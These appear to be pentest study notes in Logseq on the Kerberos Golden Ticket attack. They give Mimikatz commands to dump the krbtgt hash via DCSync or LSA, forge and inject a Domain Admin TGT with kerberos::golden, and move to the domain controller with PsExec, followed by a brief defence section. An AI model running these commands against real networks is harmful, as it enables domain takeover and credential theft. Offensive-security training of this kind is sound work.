 public:: true

- As we saw in the [[Kerberos]] authentication specification, [TGT](((655a4269-21dc-4947-a21d-5c89e404b561)))s are always encrypted with the password (NTML hash) of the *krbtgt* user, and valid issued TGTs specify privileges of the requesting user.
- The [Golden Ticket](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don%27t-Get-It.pdf) technique aims to steal the password NTLM hash of the *krbtgt* user, then use it to offline forge TGTs filled with additional privileges for any domain-user on-demand.
- #+BEGIN_IMPORTANT
  You can think at **Golden Ticket** as a **passepartout for any resource** in the domain.
  #+END_IMPORTANT
- *[KRBTGT account](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#krbtgt-account)* recap
	- Is a local default account that acts as a service account for the [Key Distribution Center](((6565b3f7-61b6-4b2a-a59d-01d20e6acd96))) (KDC) service.
	- This account cannot be deleted.
	- The account name cannot be changed.
	- KRBTGT is also the [Service Principal Name](((655e0fad-5b48-42ce-b82a-09cd0e4a9322))) (SPN) used by the KDC for a Windows Server domain.
	- The account is created automatically when a new domain is created.
		- A strong password is assigned automatically.
		- Its password **is not** automatically changed.
	- The password of the KRBTGT account is known only by the Kerberos service ([DC](((65a7a0b2-f9d2-436b-b4f2-369427fa7489)))).
		- The hash of its password is used to encrypt/decrypt [TGT](((655a4269-21dc-4947-a21d-5c89e404b561)))s.
		- The hash of its password is used to sign/verify [PAC](((655f3e21-772b-48c3-b6e6-bd342fb92403)))s.
	- The KRBTGT account stores the two most recent passwords in the password history.
- Retrieve the *krbtgt* password hash
	- Via [[DCSync]]
		- If we have enough privileges to perform DCSync, then we could request the *krbtgt* password hash to any DCs.
		  ```mimikatz
		  lsadump::dcsync /user:krbtgt
		  ```
	- With [[Mimikatz]]
		- We need access to a domain controller with a local administrator account in order to successfully run Mimikatz.
		- From a compromised domain controller
		  ```mimikatz
		  privilege::debug
		  lsadump::lsa /patch
		  ```
- Forge TGT with stolen *krbtgt* password (NTML hash) and inject it in-memory
	- Ingredients
		- *krbtgt* password hash
		- Domain [SID](((65a7d701-e9cd-40ea-aa80-7322b2b18fee)))
	- With [[Mimikatz]] from a domain-joined machine (not the DC)
	  id:: 65a7d51a-e45d-454a-b4fd-7f314589d634
		- First delete any existing loaded tickets (TGT, TGS) with [`kerberos::purge`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos#purge)
		  ```mimikatz
		  kerberos::purge
		  ```
		- Forge and inject fully privileged TGT with [`kerberos::golden`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos#golden--silver)
		  ```mimikatz
		  kerberos::golden \
		  	/user:jen \
		      /domain:corp.com \
		  	/sid:S-1-5-21-1987370270-658905905-1781884369 \
		      /krbtgt:1693c6cefafffc7af11ef34d1c788f47 \
		      /ptt
		  ```
			- `/user` is the username you want to impersonate
			  logseq.order-list-type:: number
			- `/domain` is the fully qualified domain name
			  logseq.order-list-type:: number
			- `/sid` is the SID of the domain
			  logseq.order-list-type:: number
			- `/krbtgt` is the hash of the *krbtgt* account password
			  logseq.order-list-type:: number
			- `/ptt` no output in file, just inject the golden ticket in current session
			  logseq.order-list-type:: number
			- Since this ticket is not emitted by the real KDC, it's not limited to allowed cipher methods.
			- By default, the Golden Ticket default lifetime is *10 years*, but can be configured via `/startoffset`, `/endin`, `/renewmax` *(in munutes)*.
			- By default the user ID is `500` (RID of built-in administrator) for the requesting user, but can be configured via `/id`.
			- By default assigned group IDs are `513,512,520,518,519` for well-known Administrator's groups, but can be configured via `/groups`.
				- The first specified group ID of the list is set as primary group for the user.
		- With the forged TGT loaded in-memory we can spawn a privileged shell directly from Mimikatz via [`misc::cmd`](https://tools.thehacker.recipes/mimikatz/modules/misc/cmd) and from there move laterally with [[psexec]] 
		  ```cmd
		  PsExec.exe \\dc1 cmd.exe
		  ```
			- By checking privileges with `whoami /groups` we can confirm that now *jen* is part of the **Domain Admins** group!
- #+BEGIN_WARNING
  Please note that we need to use [[Overpass-The-Hash]] (e.g. calling `PsExec.exe` against the DC hostname) to make use of the newly forged TGT.
  
  If we fallback to [[NTLM Authentication]] (e.g. calling `PsExec.exe` against the DC IP address) then the TGT won't be used and we won't be able to leverage the additional privileges Mimikatz equipped into it. 
  #+END_WARNING
- Defeat Golden Ticket
	- If a domain admin realizes that the *krbtgt* account has been compromised, then he has to either
		- [Change](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#krbtgt-account-maintenance-considerations) the account password
		- [Reset](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#security-considerations) the account password
	- Luckily for us, none of these steps are [as easy as it sounds](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#security-considerations) 😈.